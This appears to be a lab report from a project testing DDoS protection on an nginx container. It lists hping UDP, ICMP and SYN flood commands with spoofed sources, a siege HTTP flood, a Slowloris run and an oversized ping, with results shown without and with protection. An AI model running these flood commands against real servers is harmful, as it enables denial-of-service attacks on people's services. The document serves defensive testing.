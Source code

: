 # DDoS Attacks

## UDP Flood

### Without protection

```shell
/ # hping --rand-source --udp --flood nginx -p 80
HPING nginx (eth0 172.24.0.4): udp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
942175 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

![udp_no_prot](./report/udp_no_prot.png "udp_no_prot")

### With protection

```shell
hping --rand-source --udp --flood nginx -p 80
HPING nginx (eth0 172.31.0.3): udp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
2151038 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

![udp_prot](./report/udp_prot.png "udp_prot")

## ICMP flood

```shell
/ # hping --rand-source -1 --flood nginx -p 80  
HPING nginx (eth0 172.24.0.4): icmp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
1124126 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

![icmp_no_prot](./report/icmp_no_proto.png "icmp_no_prot")

### Without protection

```shell
/ # hping --rand-source -1 --flood nginx -p 80
HPING nginx (eth0 172.31.0.3): icmp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
2545522 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

![icmp_prot](./report/icmp_prot.png "icmp_prot")

### With protection

## HTTP flood

### Without protection

```shell
siege -b -c 300 -t 1m 127.0.0.1:8080

Transactions:                  16376 hits
Availability:                  99.22 %
Elapsed time:                  59.85 secs
Data transferred:               0.28 MB
Response time:                  1.09 secs
Transaction rate:             273.62 trans/sec
Throughput:                     0.00 MB/sec
Concurrency:                  297.31
Successful transactions:       16376
Failed transactions:             129
Longest transaction:            1.99
Shortest transaction:           0.06

```

![http_no_prot](./report/http_no_prot.png "http_no_prot")

### With protection

```shell
siege -b -c 200 -t 1m 127.0.0.1:8080

Transactions:                  13270 hits
Availability:                  95.17 %
Elapsed time:                  59.93 secs
Data transferred:               0.32 MB
Response time:                  0.90 secs
Transaction rate:             221.42 trans/sec
Throughput:                     0.01 MB/sec
Concurrency:                  198.78
Successful transactions:       13270
Failed transactions:             674
Longest transaction:            2.97
Shortest transaction:           0.00

```

![http_prot](./report/http_prot.png "http_prot")

## Slowloris

### Without protection

```shell
python3 slowloris.py nginx -s 1021 --sleeptime 1
```

Server down

![slowloris_no_prot](./report/slowloris_no_prot.png "slowloris_no_prot")

### With protection

```shell
python3 slowloris.py nginx -s 1021 --sleeptime 1
```

Server OK

![slowloris_prot](./report/slowloris_prot.png "slowloris_prot")

## SYN flood

### Without protection

```shell
/ # hping --rand-source -S -q -n --flood nginx -p 80
HPING nginx (eth0 172.24.0.4): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
657549 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

```

![syn_no_prot](./report/syn_no_prot.png "syn_no_prot")

### With protection

```shell
/ # hping --rand-source -S -q -n --flood nginx -p 80
HPING nginx (eth0 172.31.0.3): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
--- nginx hping statistic ---
1145059 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

![syn_prot](./report/syn_prot.png "syn_prot")

## Ping of Death

### Without protection

```shell
/ # ping nginx -s 65488
PING nginx (172.24.0.4): 65488 data bytes
65496 bytes from 172.24.0.4: seq=0 ttl=64 time=0.602 ms
65496 bytes from 172.24.0.4: seq=1 ttl=64 time=0.977 ms
65496 bytes from 172.24.0.4: seq=2 ttl=64 time=0.498 ms
65496 bytes from 172.24.0.4: seq=3 ttl=64 time=0.605 ms
--- nginx ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 0.498/0.670/0.977 ms
```

### With protection

```shell
/ # ping nginx -s 65488
PING nginx (172.31.0.3): 65488 data bytes
--- nginx ping statistics ---
15 packets transmitted, 0 packets received, 100% packet loss
```